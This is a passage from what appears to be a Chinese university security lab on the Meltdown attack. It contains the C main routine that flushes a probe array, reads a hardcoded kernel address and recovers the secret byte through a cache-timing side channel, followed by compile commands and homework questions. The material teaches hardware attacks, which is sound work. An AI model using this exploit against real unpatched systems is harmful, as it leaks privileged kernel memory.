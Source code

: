 ```c
  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
	  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
	}
	
	// Flush the probing array
	for (j = 0; j < 256; j++) 
		_mm_clflush(&array[j * 4096 + DELTA]);

	if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xf8d74000); }

	reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
	if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
```

**实验**

```
$ gcc -march=native -o MeltdownAttack MeltdownAttack.c
$ ./MeltdownAttack.c
```

**效果**

![image-20210319133601086](C:\Users\Panda\AppData\Roaming\Typora\typora-user-images\image-20210319133601086.png)

## 问题

Q1：完成上述实验，尝试输出secret中的第四个字符(D)；

Q2：解释使用UserAccess读取数据为何会产生Segmentation Fault；

Q3：解释实验中array的有效数字之间存在较大的间隔，为何在任务二和任务三中还需要增加一个偏移量Delta；

Q4：解释`meltdown_asm`中汇编指令的作用。（选做）



